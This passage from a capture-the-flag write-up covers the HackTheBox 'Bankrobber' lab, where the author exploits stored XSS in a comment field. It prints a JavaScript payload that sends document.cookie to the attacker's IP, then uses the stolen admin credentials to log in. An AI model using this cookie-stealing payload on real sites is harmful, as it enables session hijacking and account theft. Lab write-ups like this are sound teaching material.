 So, we test the basic payloads, to see if it catch us

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2007:19:36.png)

And after one minute we get back

`<script src="http://10.10.14.20"></script>`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2007:21:00.png)

How we get a admin looking at the comment tab, we possible can create a malicious JS to send us the cookies values

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2007:27:00.png)

And we got it!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2007:27:20.png)

0x4rt3mis.js

```js
function send_cookie(){
        var req=new XMLHttpRequest();
        req.open('GET', 'http://10.10.14.20/?xss=' + document.cookie, true);
        req.send();
}

send_cookie();
```

And playing with it, we got the admin credentials

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2007:28:55.png)

```
admin 
Hopelessromantic
```

We login as admin

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2007:30:00.png)

And we have access to the admin panel

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2007:30:14.png)

### Admin Enumeration

We start looking at the pages that the admin has access

notes.txt

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2007:54:02.png)
